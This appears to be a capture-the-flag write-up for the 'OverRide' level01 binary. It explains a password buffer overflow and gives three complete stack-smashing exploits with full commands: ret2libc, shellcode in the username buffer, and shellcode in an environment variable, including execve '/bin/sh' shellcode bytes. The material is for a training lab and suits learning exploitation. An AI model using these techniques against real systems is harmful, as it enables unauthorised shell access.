 # level00
For this binary, `NX` is disabled.

The program waits for username and password entry in `stdin`


## Step 1 : Enter in the program
Once decompiled, we can see that the program compares the username entry with `dat_wil`.

## Step 2 : Figure out the vulnerability
Then, the program compares the password entry with `admin`, but it always performs the failed login message.

Also, the program reads 100 bytes for the password entry with `fgets` and store the input in a buffer of 64 bytes. __This is the vulnerability__

## Step 3 : Find the offset
Find the offset of the instruction pointer by using `gdb` and [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```console
level01@OverRide:~$ gdb -q level01
(gdb) run
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

- The program segfaults, because it continue to `0x37634136` address.
- `0x37634136` is at the 80th position from the beginning of the buffer. At this positon, it overwrites the program counter: `eip`.

## Exploit with Ret2libc
Overwrite `eip` and make a [__Ret2libc__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) attack.

1. Address of system: `(gdb) p system` -> `0xf7e6aed0`
2. Address of exit: `(gdb) p exit` -> `0xf7e5eb70`
3. Address of "/bin/sh": `find &system,+9999999,"/bin/sh"` -> `0xf7f897ec`

```bash
(python -c 'print "dat_wil" + "\n" + "A" * (80) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | /home/users/level01/level01
```

> The `[::-1]` is used to reverse the string because of the little-endian architecture. see [slicing in python](https://stackoverflow.com/questions/509211/how-slicing-in-python-works).
 
> Dont forget to run the binary with the same environment as in gdb (give the entirer path to the binary and/or unset LINES COLUNMS)
- https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue


- https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

## Shellcode in username buffer

1. Can't store instruction in the password buffer and go to, it segfaults  
2. Use the username buffer to store the shellcode.  

Username entry is stored in a global variable named `a_user_name` at `0x0804a040`

```bash
objdump -t level01 | grep a_user_name
```  
```console
0804a040 g     O .bss	00000064              a_user_name
```
- Write a shellcode at the end of the buffer
- Return to the address of the `a_user_name` + 7 bytes

> 7 bytes are added to skip the `dat_wil` string and reach the shellcode.

```bash
(python -c 'print "dat_wil" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\n" + "A" * (80) + "\x08\x04\xa0\x47"[::-1] '; cat) | /home/users/level01/level01
```

shell code [here](https://shell-storm.org/shellcode/files/shellcode-752.html)


## Shellcode in the environment
1. Put a shellcode in an environment variable
2. Get the address of the environment variable
3. Return to the environment variable

### 1. Put a shellcode in an environment variable
```bash
env -i SHELLCODE=$(python -c 'print "\x90" * 512 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') gdb -q level01
```

> unset the environment with `env -i` to avoid the address shifting between the normal execution and the debug mode.

### 2. Get the address of the environment variable
```console
(gdb) b *main
(gdb) r
(gdb) x/5s *((char **)environ + 0)
0xffffdd8d:	 "COLUMNS=169"
0xffffdd99:	 "PWD=/home/users/level01"
0xffffddb1:	 "LINES=41"
0xffffddba:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220...
```

Shellcode is at `0xffffddba` + 512 bytes of `NOP` = `0xffffdfba`

### 3. Return to the environment variable
```bash
(python -c 'print "dat_wil" + "\n" + "A" * 80 + "\xff\xff\xdf\xba"[::-1]'; cat) | env -i SHELLCODE=$(python -c 'print "\x90" * 512 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') /home/users/level01/level01
```